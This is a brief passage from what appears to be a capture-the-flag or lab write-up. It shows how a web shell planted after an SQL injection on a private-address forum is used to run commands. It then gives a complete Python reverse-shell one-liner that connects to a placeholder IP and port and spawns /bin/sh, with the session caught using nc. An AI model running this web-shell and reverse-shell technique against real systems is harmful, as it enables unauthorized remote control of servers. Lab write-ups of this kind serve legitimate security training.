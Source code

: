 
from the ste pafter the sql injection in writeup1, we can now inject code in the address bar like this :

```
https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=test
```

so with we created a reverse shell that we can access with nc:
```
https://192.168.1.48/forum/templates_c/EXPLOIT.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
